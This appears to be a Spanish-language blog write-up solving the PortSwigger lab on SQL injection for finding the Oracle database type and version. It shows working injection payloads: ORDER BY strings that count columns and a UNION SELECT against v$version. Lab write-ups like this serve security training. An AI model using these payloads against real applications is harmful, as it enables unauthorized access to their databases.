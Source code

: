 ```yaml
---
title: PortSwigger - SQL injection attack, querying the database type and version on Oracle.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection attack, querying the database type and version on Oracle. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en **Accessories** o en cualquier otro filtro de búsqueda.

![](/assets/images/images-portswigger-sqli/lab7-1.png)

Luego ejecutamos una query para enumerar la cantidad de columnas que existen.

```sql
' ORDER BY 1 -- -
```

![](/assets/images/images-portswigger-sqli/lab7-4.png)

Con 1 la página funciona correctamente. Debemos seguir hasta que la página falle.

```sql
' ORDER BY 1,2 -- -
```

![](/assets/images/images-portswigger-sqli/lab7-5.png)

Con 3 la página falla, esto significa que debemos agregar 2 `null` a nuestra query final.

```sql
' ORDER BY 1,2,3 -- -
```

![](/assets/images/images-portswigger-sqli/lab7-6.png)

Siguiendo la [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) de PortSwigger podemos armar nuestra query final. 

Debemos identificar la versión que la base de datos, primero probaremos con Oracle y si no funciona probamos con Microsoft, PostgreSQL y así.

```sql
' UNION SELECT banner,null from v$version -- -
```

Por suerte el primer payload funcionó e identificamos que la base de datos es Oracle, además resolvimos el lab.

![](/assets/images/images-portswigger-sqli/lab7-7.png)


---

## [Anterior](/blog/SQL-injection-UNION-attack%2C-retrieving-multiple-values-in-a-single-column)
## [Siguiente](/blog/SQL-injection-attack%2C-querying-the-database-type-and-version-on-MySQL-and-Microsoft)
